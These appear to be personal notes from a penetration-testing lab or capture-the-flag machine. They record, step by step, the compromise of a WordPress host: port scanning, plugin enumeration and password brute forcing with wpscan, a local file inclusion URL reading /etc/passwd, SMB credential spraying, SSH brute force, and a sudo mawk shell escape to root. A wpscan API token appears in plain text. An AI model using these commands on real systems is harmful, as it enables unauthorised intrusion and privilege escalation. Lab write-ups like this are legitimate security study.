 nmap -p- -sV -sC -Pn 192.168.102.112 --open

ftp anonymous available
passwords in pdf

wpscan for 
wpscan --url http://192.168.102.112 --enumerate p --plugins-detection aggressive --api-token fQRHq1Xd2K2yCo8zQjiNQwGrSMbOJUekxgKkxaqRYew
wpscan --url http://192.168.102.112 --passwords password112.txt --api-token fQRHq1Xd2K2yCo8zQjiNQwGrSMbOJUekxgKkxaqRYew
LFI in mail masta plugin
http://192.168.102.112/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
got username

crackmapexec smb 192.168.102.112 -u user112.txt -p password112.txt --shares --continue-on-success
 bruteforce ssh
 got sarah for ssh
 sudo -l 
 mawk
 sudo mawk 'BEGIN {system("/bin/sh")}'
 gtfobins got root